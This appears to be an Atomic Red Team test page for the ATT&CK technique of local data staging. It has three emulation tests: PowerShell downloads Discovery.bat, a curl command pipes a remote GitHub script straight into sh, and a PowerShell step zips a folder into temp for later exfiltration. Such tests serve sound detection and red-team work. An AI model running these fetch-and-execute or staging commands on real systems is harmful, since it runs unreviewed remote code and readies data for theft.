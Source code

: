 # T1074.001 - Data Staged: Local Data Staging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1074/001)
<blockquote>Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.

Adversaries may also stage collected data in various available formats/locations of a system, including local storage databases/repositories or the Windows Registry.(Citation: Prevailion DarkWatchman 2021)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 107706a5-6f9f-451a-adae-bab8c667829f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 39ce0303-ae16-4b9e-bb5b-4f53e8262066





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `sh`! 


```sh
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | sh -s > #{output_file}
```

#### Cleanup Commands:
```sh
rm #{output_file}
```



#### Dependencies:  Run with `sh`!
##### Description: Check if curl is installed on the machine.
##### Check Prereq Commands:
```sh
if [ -x "$(command -v curl)" ]; then echo "curl is installed"; else echo "curl is NOT installed"; exit 1; fi
```
##### Get Prereq Commands:
```sh
which apt && apt update && apt install -y curl || which pkg && pkg update && pkg install -y curl
```




<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** a57fbe4b-3440-452a-88a7-943531ac872a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path "#{input_file}" -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>
